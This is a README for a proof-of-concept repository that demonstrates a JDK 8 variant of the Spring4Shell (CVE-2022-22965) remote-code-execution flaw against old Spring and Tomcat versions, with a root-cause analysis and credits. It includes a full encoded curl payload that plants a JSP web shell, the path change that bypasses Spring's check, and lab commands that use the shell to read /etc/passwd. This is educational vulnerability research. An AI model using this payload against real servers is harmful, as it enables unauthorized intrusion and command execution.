


Spring4Shell Demo with JDK8, Tomcat and Spring 3
--------------------------------------------------------

# Disclaimer

The content of this repository is for educational purposes only. The information on this repository should only be used to enhance the security for your computer systems and not for causing malicious or damaging attacks.

You should not misuse this information to gain unauthorized access into computer systems. Also be aware, performing hack attempts on computers that you do not own, without written permission from owners, is illegal.

I will not be responsible for any direct or indirect damage caused due to the usage of the information provided on this website.


# Goal

The purpose of this repository is to highlight another attack vector of [CVE-2022-22965 - Spring4Shell RCE vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2022-22965#vulnCurrentDescriptionTitle) and stress out the importance of patching as soon as possible.

[Spring official announcement](https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement) identifies four requirements

* Running on JDK 9 or higher
* Apache Tomcat as the Servlet container.
* Packaged as a traditional WAR and deployed in a standalone Tomcat instance. Typical Spring Boot deployments using an embedded Servlet container or reactive web server are not impacted.
* spring-webmvc or spring-webflux dependency.
* Spring Framework versions 5.3.0 to 5.3.17, 5.2.0 to 5.2.19, and older versions.

It is also stated *The vulnerability involves ClassLoader access, and therefore in addition to the specific attack reported with a Tomcat specific ClassLoader, _other attacks may be possible_ against a different custom ClassLoader*.
This should not be taken lightly.

This code example show how this vulnerability can be exploited using JDK less than 8.

# How to ?

1. docker build . -t spring4shell-demo:jdk8-spring3
2. docker run -d -P --name poc-spring4shell-jdk8 spring4shell-demo:jdk8-spring3
3. python3 exploit-jdk8.py --url http://localhost:$(docker port poc-spring4shell-jdk8 8080 | head -1 | cut -d ':' -f2)/customer/rest/customers
4. Show /etc/passwd : curl --output passwd.txt http://localhost:$(docker port poc-spring4shell-jdk8 8080 | head -1 | cut -d ':' -f2)/shell.jsp?cmd=cat%20%2fetc%2fpasswd && cat passwd.txt

# How it works ?

## Why JDK 9 or higher as prerequisite ?

The JDK9 or higher prerequisite is set because the payload on the initial exploit uses the following path `class.module.classLoader` to access the classloader.
The module concept, which is an abstraction encapsulation above the package, has been introduced in Java 9 which is why the path above can't work with previous JDK.

You can find the payload [here](https://www.rapid7.com/blog/post/2022/03/30/spring4shell-zero-day-vulnerability-in-spring-framework/)

```shell
curl -v -d "class.module.classLoader.resources.context.parent.pipeline
.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%
22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRunt
ime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%
20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20
while((a%3Din.read(b))3D-1)%7B%20out.println(new%20String(b))%3B%20%7
D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context
.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources
.context.parent.pipeline.first.directory=webapps/ROOT&class.module.cl
assLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&cl
ass.module.classLoader.resources.context.parent.pipeline.first.fileDat
eFormat=" http://<uri>
```

## Let's try JDK 8

A naïve idea would be to replace `class.module.classLoader` by `class.classLoader` on the exploit payload to directly access the classloader through the object class.
However, it does not work because Spring framework alread had counter measures for this. Looking at the [patch commit](https://github.com/spring-projects/spring-framework/commit/002546b3e4b8d791ea6acccb81eb3168f51abb15#diff-de34d8ca8ee09e89bce68a491958bcc09197c49243aa2db6d981ecaa035b2447L289) for CVE-2022-22965, it is understandable :



The paths `class.classLoader` and `class.protectionDomain` are forbidden. The later one is required because otherwise you could access the classloader using `class.protectionDomain.classLoader`.

The whole cause of the current vulnerability is that Spring beans binding checks were not updated after the introduction of the module feature on Java 9.

## Circumventing Spring protection

Now that we understand why the exploit can't be run on JDK lower than 9 and the checks performed by Spring. Can we bypass them ?

Let's try to apply the same principle : maybe those checks had been introduced in a not so distant version of Spring ?

Looking at the history of the class `CachedIntrospectionResults.java` with Git, we can see that the check regarding the `protectionDomain` has been added on version [3.2.6.RELEASE](https://github.com/spring-projects/spring-framework/commit/7f895222e17b0970d4f9ab038b2f03c26aaf6f03#diff-de34d8ca8ee09e89bce68a491958bcc09197c49243aa2db6d981ecaa035b2447L263)



Any Spring framework version older than `3.2.6.RELEASE` is thus vulnerable provided that you perform minor changes on the exploit payload :

Replace `class.module.classLoader` by `class.protectionDomain.classLoader`.

I've also found out (without analyzing it further) that it requires a Tomcat version lower than `8.5.57` to work.

Needless to say that if you had managed your technical debt and thoroughly upgraded your stack (`3.2.6` was released on december 2013 and is no longer supported), it would not be a problem.

## Synthesis

For this attack vector to work, you need :

* Running on JDK 4 or higher
* Apache Tomcat as the Servlet container.
* Apache Tomcat versions *lower than 8.5.57*
* Packaged as a traditional WAR and deployed in a standalone Tomcat instance. Typical Spring Boot deployments using an embedded Servlet container or reactive web server are not impacted.
* spring-webmvc or spring-webflux dependency.
* Spring Framework versions *lower than 3.2.6.RELEASE*


# Credits

[Brandon Forbes](https://github.com/reznok) : The exploit script and Dockerfile are largely derived from [https://github.com/reznok/Spring4Shell-POC.git](https://github.com/reznok/Spring4Shell-POC.git)
[Oliver Drotbohm](https://github.com/odrotbohm) : The source code is largely derivated from [https://github.com/odrotbohm/spring-rest](https://github.com/odrotbohm/spring-rest)
[Rapid7](https://www.rapid7.com/) : The exploit payload is based on the content of this article [spring4shell-zero-day-vulnerability-in-spring-framework](https://www.rapid7.com/blog/post/2022/03/30/spring4shell-zero-day-vulnerability-in-spring-framework/)